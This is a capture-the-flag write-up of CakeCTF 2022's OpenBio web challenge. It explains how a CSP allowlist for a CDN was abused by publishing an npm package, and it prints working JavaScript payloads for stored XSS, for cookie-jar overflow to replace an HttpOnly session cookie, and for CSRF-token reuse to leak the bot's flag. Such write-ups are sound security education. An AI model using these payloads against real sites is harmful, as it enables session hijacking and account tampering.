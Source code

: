 # CTF writeup for OpenBio - CakeCTF_2022

Let's take a look at the source code. There are some APIs: register/login/logout, view/update profile, and report.
The website uses [CSP and nonce techniques](https://web.dev/csp/) to prevent XSS attack. Below is the `/profile/my_account`'s response header:
```
HTTP/1.1 200 OK
Server: nginx/1.21.6
Date: Mon, 05 Sep 2022 05:30:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2451
Connection: close
Content-Security-Policy: default-src 'none';
  script-src 'nonce-uXNwZYx7W4dDz2yzdzrcAw==' https://cdn.jsdelivr.net/ https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ 'unsafe-eval';
  style-src https://cdn.jsdelivr.net/;
  frame-src https://www.google.com/recaptcha/ https://recaptcha.google.com/recaptcha/;
  base-uri 'none';
  connect-src 'self';
Vary: Cookie
```
So, the website only accepts scripts coming from https://cdn.jsdelivr.net/. I publish my npm package called my-npm-payload (version 1.0.0) with the content: `<script>alert(1)</script>`. Then I update my bio: `<script src="https://cdn.jsdelivr.net/npm/my-npm-payload@1.0.0"></script>`. And BOOM! The alert statement is executed.

Ok, we perfomed XSS successfully, but how to get the flag? Let's look at `crawler.js`:
```
  ...
    const username = Math.random().toString(32).substring(2);
    const password = Math.random().toString(32).substring(2);

    const browser = await puppeteer.launch(browser_option);
    try {
        const page = await browser.newPage();
        // Register
        await page.goto(base_url + '/', {timeout: 3000});
        await page.type('#username', username);
        await page.type('#password', password);
        await page.click('#tab-signup');
        await page.click('#signup');
        await wait(1000);

        // Set flag to bio
        await page.goto(base_url + '/', {timeout: 3000});
        await page.$eval('#bio', element => element.value = '');
        await page.type('#bio', "You hacked me! The flag is " + flag);
        await page.click('#update');
        await wait(1000);

        // Check spam page
        await page.goto(url, {timeout: 3000});
        await wait(3000);
        await page.close();
   ...
```
In short, it does the following things:
- First, create a user (with random username and password)
- Second, update its own bio => flag
- Finally, go to reported bio

This is my idea: When the crawler visit my bio, the executed XSS script will change **my bio** to **crawler's username**. And having crawler's username means having the flag.

## CSRF

The update profile API uses csrf_token. But I realize that with the same session_cookie and one of the valid csrf_tokens, I can call update API multiple times. 

Therefore, the script should **change the crawler's session cookie to my session cookie and call update API with my csrf_token**

## Change session cookie

The cookie is HttpOnly. There's a technique we can use to bypass this. It's [Cookie jar overflow](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-jar-overflow). So, this is my-npm-payload (version 2.0.0):
```
for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i}`;
    }
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
    }
    document.cookie='session=<my_session_cookie>;path=/';
    
    xhr_2 = new XMLHttpRequest();
    xhr_2.open('POST', '/api/user/update');
    xhr_2.withCredentials = true;
    xhr_2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr_2.send("bio=new_bio"&csrf_token=<my_csrf_token>");
```
Note that there is `path=/` in new cookie, because if not, the cookie will not be sent with the request on path `/profile/...`
I ran this code on console first, and it worked! Now, we will replace `new_bio` to the flag.
I modified my-npm-payload like this (version 3.0.0):
```
//send request to / => get the crawler's username
var result;
xhr = new XMLHttpRequest();
xhr.open('GET', '/');
xhr.onreadystatechange = function(){
    result = xhr.responseText;
    dom = new DOMParser();
    result_parsed = dom.parseFromString(result, 'text/html');
    title = result_parsed.title; //The title contains the crawler's username
    
    //overwrite crawler's session cookie => my session cookie
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i}`;
    }
    for (let i = 0; i < 700; i++) {
        document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
    }
    document.cookie='session=<my_session_cookie>;path=/';
    
    //Update my bio with my csrf_token
    xhr_2 = new XMLHttpRequest();
    xhr_2.open('POST', '/api/user/update');
    xhr_2.withCredentials = true;
    xhr_2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr_2.send("bio=<script src='https://cdn.jsdelivr.net/npm/my-npm-payload@3.0.0'></script>Title:"+title+"&csrf_token=<my_csrf_token>");
}
xhr.send();
```
I have `<script src='my-npm-payload-url'></script>` in my bio's content so that when I go to my profile and click "Report", the payload will not be lost. I changed my bio: `<script src="https://cdn.jsdelivr.net/npm/my-npm-payload@3.0.0"></script>` and after reporting, I got the result:

![image](https://user-images.githubusercontent.com/103978452/188373761-51e8babe-9dbb-4479-bbe8-7686cd21cfd2.png)

Now visit `/profile/7cokbb5m2bo` and here's the flag:
'CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}'

**Notes**: Somehow, this works fine on Chrome but not on Firefox. The problem is related to SameSite attribute of cookie. However, I got the flag :))
